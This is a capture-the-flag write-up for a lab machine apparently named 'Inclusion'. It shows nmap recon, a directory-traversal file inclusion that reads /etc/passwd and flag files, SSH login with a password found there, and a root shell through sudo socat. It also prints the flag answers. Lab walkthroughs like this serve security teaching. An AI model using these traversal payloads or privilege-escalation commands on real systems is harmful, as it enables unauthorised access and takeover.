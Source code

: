 ### IP
`10.10.245.246`

# Recon

### nmap
`nmap -sC -sV 10.10.245.246 -oN Inclusion.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-02 00:29 EST
Nmap scan report for 10.10.245.246
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.84 seconds

```
* We have a website on http
* SSH is also open on port 22
	* The site is running on linux


# Exploitation
* Here are two exploit paths: 
	* The last exploit path make some references to things I did in the first one
## 1. Guessing file paths
* Clicking on "View details" on the homepage, we can see a url: `http://10.10.245.246/article?name=hacking`
	* This looks like it's rendering some kind of file
	* We can test for LFI (Local File Inclusion) by doing some directory traversal to look for the `/etc/passwd` file, which is universal on linux
	* `http://10.10.245.246/article?name=../../../../../../etc/passwd` gives use their `/etc/passwd` file
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
```
* We can see users `root` and `falconfeast` can run `/bin/bash` 

* Based on the users, we can try to get the flags:
* `http://10.10.245.246/article?name=../../../../../../home/falconfeast/user.txt` gives us the user flag: `60989655118397345799`
* `http://10.10.245.246/article?name=../../../../../../root/root.txt` gives us the root flag: `42964104845495153909`

## 2. SSH into the box
* If we look at the `/etc/passwd` file above, there's a line that says `#falconfeast:rootpassword`
* So, if we run `ssh falconfeast@10.10.245.246` and put in the password `rootpassword` we get a shell
* We can then `cat user.txt`
* However, we are not root

### privesc
* Running `sudo -l` gets the following output:
```
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat

```
* We can run socat as root without a password

* In order to get a root shell, we can use the exec function of socat:
	* `socat stdin exec:/bin/sh` gets us a root shell
* We can `cat /root/root.txt`
